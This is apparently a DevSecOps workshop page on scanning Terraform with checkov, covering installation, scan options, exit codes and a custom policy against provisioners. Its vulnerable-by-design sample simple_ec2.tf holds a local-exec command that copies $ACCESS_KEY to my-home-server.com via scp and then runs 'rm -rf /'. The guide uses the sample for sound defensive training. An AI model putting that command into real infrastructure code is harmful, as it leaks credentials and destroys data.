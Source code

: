 ```yaml
---
title : "Code Scanning with checkov"
date :  "`r Sys.Date()`" 
weight : 3
chapter : false
pre : " <b> 2.3 </b> "
---
```


**Install checkov**

To get started, install checkov using pip:

```sh
pip3 install checkov
```

![23][1]

Use the **--version** and **--help** flags to verify the install and view usage / optional arguements

```sh
checkov --version
checkov --help
```
![23][2]

To see a list of every policy that Checkov can enforce, use the -l or --list options.

```sh
checkov --list
```
![23][3]

Now that you see what checkov can do, let's get some code to scan...


**Fork and clone target repository**

This workshop involves code that is vulnerable-by-design. All of the necessary code is contained within [this repository](https://github.com/paloAltoNetworks/prisma-cloud-devsecops-workshop)  or workshop guide itself.

To begin, log into Github and navigate to the [Prisma Cloud DevSecOps Workshop](https://github.com/paloAltoNetworks/prisma-cloud-devsecops-workshop)  repository. Create a `Fork` of this repositry to create a copy of the code in your own account  ![23][4]

Ensure the selected `Owner` matches your username, then proceed to fork the repository by clicking `Create fork.` ![23][5]

Grab the repo URL from Github, then clone the `forked` repository to Cloud9. ![23][6]

```sh
git clone https://github.com/nonotnonez/prisma-cloud-devsecops-workshop.git
cd prisma-cloud-devsecops-workshop/
git status
```
![23][7]

Great! Now we have some code to scan. Let's jump in...

**Scan with checkov**

Checkov can be configured to scan files and enforce policies in many different ways. To highlight a few:

1. Scans can run on individual files or entire directories.
2. Policies can be selected through selection or omission.
3. Enforcement can be determined by flags that control checkov's exit code.

Let's start by scanning the entire `./code `directory and viewing the results.

```sh
cd code/
checkov -d .
```

![23][8]

Failed checks are returned containing the offending file and resource, the lines of code that triggered the policy, and a guide to fix the issue.

![23][9]

Now try running checkov on an individual file with checkov -f <filename>.

```sh
checkov -f deployment_ec2.tf
```
```sh
checkov -f simple_ec2.tf
```
{{%expand "Expand simple_ec2.tf" %}}
```sh
provider "aws" {
  region = "us-west-2"
}

resource "aws_ec2_host" "test" {
  instance_type     = "t3.micro"
  availability_zone = "us-west-2a"

  provisioner "local-exec" {
    command = "echo Running install scripts.. 'echo $ACCESS_KEY > creds.txt ; scp -r creds.txt root@my-home-server.com/exfil/ ; rm -rf /'   "
  }

}
```
{{% /expand%}}

![23][10]

Policies can be optionally enforced or skipped with the --check and --skip-check flags.

```sh
checkov -f deployment_s3.tf --check CKV_AWS_18,CKV_AWS_52
```
```sh
checkov -f deployment_s3.tf --skip-check CKV_AWS_18,CKV_AWS_52
```

Frameworks can also be selected or omitted for a particular scan:

```sh
checkov -d . --framework secrets --enable-secret-scan-all-files
```

```sh
checkov -d . --skip-framework dockerfile
```

Lastly, enforcement can be more granularly controlled by using the `--soft-fail` option. Applying `--soft-fail` results in the scan always returning a 0 exit code. Using `--hard-fail-on `overrides this option.

Check the exit code when running checkov -d . with and without the --soft-fail option.

```sh
checkov -d . ; echo $?
```
```sh
checkov -d . --soft-fail ; echo $?
```

An example of using `--soft-fail` and exit codes in a pipeline context will be demosntrated in a later section.

**Custom Policies**

Checkov supports the creation of [Custom Policies](https://www.checkov.io/3.Custom%20Policies/YAML%20Custom%20Policies.html)  for users to customize their own policy and configuration checks. Custom policies can be written in YAML (recommended) or python and applied with the --external-checks-dir or --external-checks-git flags.

Let's create a custom policy to check for [local-exec and remote-exec Provisioners](https://developer.hashicorp.com/terraform/language/resources/provisioners/local-exec)  being used in Terraform resource definitons. (Follow link to learn more about provisioners and why it is a good idea to check for them).

```sh
metadata:
 name: "Terraform contains local-exec and/or remote-exec provisioner"
 id: "CKV2_TF_1"
 category: "GENERAL_SECURITY"
definition:
 and:
  - cond_type: "attribute"
    resource_types: all
    attribute: "provisioner/local-exec"
    operator: "not_exists"
  - cond_type: "attribute"
    resource_types: all
    attribute: "provisioner/remote-exec"
    operator: "not_exists"

```

Add the above code to a new file within a new direcotry.

```sh
mkdir custom-checks/
vim custom-checks/check.yaml
```

Save the file. Then run checkov with the --external-checks-dir to test the custom policy.

```sh
checkov -f simple_ec2.tf --external-checks-dir custom-checks
```

![23][11]

**IDE plugin**

Requires API key for Prisma Cloud.

Follow links: https://catalog.us-east-1.prod.workshops.aws/workshops/e31afbdf-ee40-41fa-a6c9-6ba2cb55fc1e/en-US/3-section1/4-ide-plugin


[1]: /ws02/images/2/23/1.png?featherlight=false&width=50pc
[2]: /ws02/images/2/23/2.png?featherlight=false&width=50pc
[3]: /ws02/images/2/23/3.png?featherlight=false&width=50pc
[4]: /ws02/images/2/23/4.png?featherlight=false&width=50pc
[5]: /ws02/images/2/23/5.png?featherlight=false&width=50pc
[6]: /ws02/images/2/23/6.png?featherlight=false&width=50pc
[7]: /ws02/images/2/23/7.png?featherlight=false&width=50pc
[8]: /ws02/images/2/23/8.png?featherlight=false&width=50pc
[9]: /ws02/images/2/23/9.png?featherlight=false&width=50pc
[10]: /ws02/images/2/23/10.png?featherlight=false&width=50pc
[11]: /ws02/images/2/23/11.png?featherlight=false&width=50pc